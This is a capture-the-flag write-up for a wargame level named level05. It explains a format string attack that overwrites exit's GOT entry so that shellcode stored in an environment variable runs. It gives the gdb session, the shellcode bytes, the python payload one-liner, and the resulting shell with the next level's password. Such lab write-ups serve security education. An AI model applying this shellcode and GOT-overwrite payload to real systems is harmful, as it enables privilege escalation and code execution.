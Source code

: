# level05

## Header

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```

<hr>

## Solution

From the [disassembled binary](./source.s) and the [source](./source.c) code we can see that program uses vulnerable `printf` making format string attack possible.

```c
int main() {
    ...
    char buf[100];
    fgets(buf, 100, stdin);
    ...
    printf(buf);
    exit(0);
}
```

It is clear that the best way here will be to use format attack to rewrite `exit` address in GOT.

First, we need to get address of `exit@plt`:
```bash
(gdb) p exit
$1 = {<text variable, no debug info>} 0x8048370 <exit@plt>
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
(gdb) x 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376
```

Adding shellcode to env:
```bash
export PAYLOAD=$'\x90\x90\x90\x90\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
```

Getting the address of the shellcode:
```c
(gdb) b main
(gdb) r
(gdb) x/1000s environ
...
0xffffdf8c:      "PAYLOAD=\220\220\220\220j\vX\231Rfh-p\211\341Rjhh/bash/bin\211\343RQS\211\341̀"
...
(gdb) x/100bx 0xffffdf8c
0xffffdf8c:     0x50    0x41    0x59    0x4c    0x4f    0x41    0x44    0x3d
0xffffdf94:     0x90    0x90    0x90    0x90    0x6a    0x0b    0x58    0x99
0xffffdf9c:     0x52    0x66    0x68    0x2d    0x70    0x89    0xe1    0x52
0xffffdfa4:     0x6a    0x68    0x68    0x2f    0x62    0x61    0x73    0x68
0xffffdfac:     0x2f    0x62    0x69    0x6e    0x89    0xe3    0x52    0x51
0xffffdfb4:     0x53    0x89    0xe1    0xcd    0x80    0x00    0x4c    0x45
...
```

The `0xffffdf94` is too large when writing it through `printf` and not working, that's why we need to pass it separately, by 2 bytes.

The idea is to place both addresses on the stack and write `0xdf94` and `0xffff`. We should also remember that our 2 addresses take 8 bytes.
```bash
$((0xffff - 0xdf94))
8299: command not found
$((0xdf94))
57236: command not found    <- subtract 8 bytes from this value as it comes first
```

As the array is located on `ESP+0x28` and the buffer passed to `printf` is on `ESP`, position of the first argument will be at <br>
0x28 / 0x4 bytes per stack argument = 40 / 4 = `10`th argument.

Exploit!
```bash
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%57228c%10$hn" + "%8299c%11$hn"' > /tmp/l5

cat /tmp/l5 - | ./level05
```

Getting token:
```bash
whoami
level06
cd ../level06
ls -la
total 17
dr-xr-x---+ 1 level06 level06   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level06 level06  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level06 level06 3533 Sep 10  2016 .bashrc
-rw-r--r--+ 1 level06 level06   41 Oct 19  2016 .pass
-rw-r--r--  1 level06 level06  675 Sep 10  2016 .profile
-rwsr-s---+ 1 level07 users   7907 Sep 10  2016 level06
cat .pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

## References
- [The video, that explains solution to almost the same problem](https://www.youtube.com/watch?v=t1LH9D5cuK4)
- [GOT and PLT](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)
